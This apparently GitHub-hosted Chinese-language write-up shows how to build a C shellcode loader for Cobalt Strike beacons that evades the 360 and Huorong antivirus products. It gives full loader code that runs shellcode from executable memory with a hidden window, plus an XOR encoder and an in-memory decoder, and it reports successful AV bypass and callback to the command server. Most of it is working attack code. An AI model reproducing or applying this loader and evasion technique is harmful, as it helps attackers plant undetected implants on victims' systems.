 # 0x01 简介
原理：c语言实现shellcode loader  
测试的杀软：360全家桶、火绒  
CS：Cobalt Strike 4.2  
Metasploit：暂未测试  

# 0x02 结论
能过360全家桶、火绒  

# 0x03 注意
360杀毒：关闭用户体验、程序错误、可疑文件  
360安全卫士：关闭用户体验、云安全、网址云安全  
火绒：关闭用户体验  

# 0x04 过程
Attacks->Packages->Payload Generator（选择之前创建的监听器，输出C格式）  
生成的代码如下  
```
/* length: 833 bytes */
unsigned char buf[] = "\xfc\xe8\x89\x00\x00\x00\x60...";
```
下载并安装VS2019，安装时勾选C++和windows这2类，创建windows控制台项目  
c语言实现loader，代码如下

```
#include <windows.h>
#include <stdio.h>

# 不显示窗口
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

// 定义shellcode
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41...";

int main() {
    char* old = (char *) VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy( old, buf, sizeof(buf) );
    ( ( void(*)() )old )();
    return 0;
}
```
经测试，编译执行后能够成功上线

拷贝到windows server 2008 R2下  
首次复制到虚拟机的时候，360直接给删除了  
再次复制时，没有删除，而且扫描后也没有提示病毒（怀疑它是判断为虚拟机，故行为改变）  
但使用火绒扫描后，提示病毒，如下图  
![image](./pic/0.png)

使用如下C代码，对shellcode进行异或加密（每个字节和数字1进行异或）
```
#include <stdio.h>

unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int a = 1;//xor key
int b = sizeof(buf);
unsigned char str[891] = { 0 };//shellcode size

int main() {
    printf("char array length=%d\n", b);
    printf("\n");

    for (int i = 0; i < b; i++) {
        str[i] = buf[i] ^ a;
    }

    for (int i = 0; i < b; i++) {
        printf("\\x%x", str[i]);
    }
    
    return 0;
}
```
拷贝上述输出的shellcode到下述代码的字符数组中，下述代码会在内存中进行异或解密并执行
```
#include <stdio.h>
#include <windows.h>

#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char buf[] = "\xfd\x49\x82\xe5\xf1\xe9\xc9\x1...";

int main() {
    for (int i = 0; i < sizeof(buf); i++) {
        _InterlockedXor8( (volatile char *)buf + i, 1 );//xor key
    }
    
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
编译执行后，能成功连接到CS  
拷贝到windows server 2008 R2下  
360安全卫士、360杀毒、火绒均未提示  
扫描后也未提示，如下图  
![image](./pic/1.png)  
执行后能成功连接到CS，如下图  
![image](./pic/2.png)
